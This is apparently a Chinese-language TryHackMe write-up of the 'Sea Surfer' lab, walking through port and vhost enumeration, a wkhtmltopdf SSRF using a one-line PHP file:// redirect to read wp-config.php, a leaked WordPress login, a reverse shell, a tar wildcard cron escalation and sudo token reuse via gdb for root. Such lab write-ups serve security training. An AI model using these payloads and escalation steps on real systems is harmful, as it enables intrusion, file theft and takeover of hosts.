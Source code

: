 ```yaml
---
sidebar_position: 175
tags: [Easy, Linux, SSRF, 定时任务, 令牌窃取]
title: "Sea Surfer"
description: "Sea Surfer"
sidebar_label: "Sea Surfer"
slug: /tryhackme/175
---
```


# Sea Surfer

## 端口扫描

```bash
root@ip-10-10-145-227:~# nmap -sTCV -p- --min-rate 1000 10.10.20.171

Starting Nmap 7.60 ( https://nmap.org ) at 2023-11-05 02:54 GMT
Nmap scan report for ip-10-10-20-171.eu-west-1.compute.internal (10.10.20.171)
Host is up (0.0012s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:DF:38:87:AD:2B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

## 80

```bash
root@ip-10-10-145-227:~# curl -I http://10.10.20.171/
HTTP/1.1 200 OK
.....
X-Backend-Server: seasurfer.thm
.....

root@ip-10-10-145-227:~# gobuster vhost -u http://seasurfer.thm/ -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:          http://seasurfer.thm/
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.0.1
[+] Timeout:      10s
===============================================================
2023/11/05 03:06:56 Starting gobuster
===============================================================
Found: internal.seasurfer.thm (Status: 200) [Size: 3072]
```

查看主域进行一些扫描, 获取到一些内容:

```bash
root@ip-10-10-145-227:~# gobuster dir -u http://seasurfer.thm/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://seasurfer.thm/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/11/05 03:42:29 Starting gobuster
===============================================================
/news (Status: 301)
/index.php (Status: 301)
/contact (Status: 301)
...
/adminer  : 数据库登陆界面
```

在上面我们获取到一个用户 `kyle` 同时发现这是一个 wordpress 站点, 目前来看除了登陆别无他发, 所以我开始转战子域, 我觉得这里应该是突破口, 再填写表单后, 我发现其给了我一个 PDF 查看其对应的工具, 经过查找发现存在 SSRF 漏洞 [wkhtmltopdf SSRF | Exploit Notes](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/)

![image-20240709204012544](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204013.png)

![image-20240709204022061](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204023.png)

在本地搭建环境进行 SSRF 利用

```bash
root@ip-10-10-145-227:~/seasurfer# cat test.php 
<?php header('location:file://'.$_REQUEST['x']); ?>
```

![image-20240709204042878](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204044.png)

在 `wp-config.php` 中我们可以读取到对应的数据库配置文件从而获取到数据库的账号和密码, 对应的我们就可以获取到 wordpress 的管理员账号和密码 : `kyle:jenny4ever` 接下来就是老三套了, 不多说

## 后渗透

### www-data

尝试获取一个reverse shell

![image-20240709204056886](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204058.png)

### www-data —> kyle

在网站中发现存在一个定时任务, 从其内容来看存在通配符利用, 我们可以利用此来完成攻击

```bash
(remote) www-data@seasurfer:/var/www/internal/maintenance$ cat backup.sh 
#!/bin/bash

# Brandon complained about losing _one_ receipt when we had 5 minutes of downtime, set this to run every minute now >:D
# Still need to come up with a better backup system, perhaps a cloud provider?

cd /var/www/internal/invoices
tar -zcf /home/kyle/backups/invoices.tgz *
(remote) www-data@seasurfer:/var/www/internal/maintenance$ ls -al backup.sh 
-rwxrwxr-x 1 kyle kyle 286 Apr 19  2022 backup.sh
```

![image-20240709204108406](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204109.png)

![image-20240709204116307](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204117.png)

### kyle —> root

我发现用户 `kyle` 存在一个 root 进程, 我们可以尝试利用此进行令牌重用

```bash
(remote) kyle@seasurfer:/home/kyle$ ps -ef
....
kyle        1122    1121  0 02:52 pts/0    00:00:00 bash -c sudo /root/admincheck; sleep infinity
...
```

下载对应的 gdb 工具并上传我们就可以获取到 root 的 Shell了

```bash
$ wget http://fi.archive.ubuntu.com/ubuntu/pool/main/g/gdb/gdb_9.1-0ubuntu1_amd64.deb
```

```bash
(remote) kyle@seasurfer:/tmp$ dpkg  -x gdb_9.1-0ubuntu1_amd64.deb  ~
(remote) kyle@seasurfer:/tmp$ export PATH=/home/kyle/usr/bin:$PATH
```

![image-20240709204124364](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204125.png)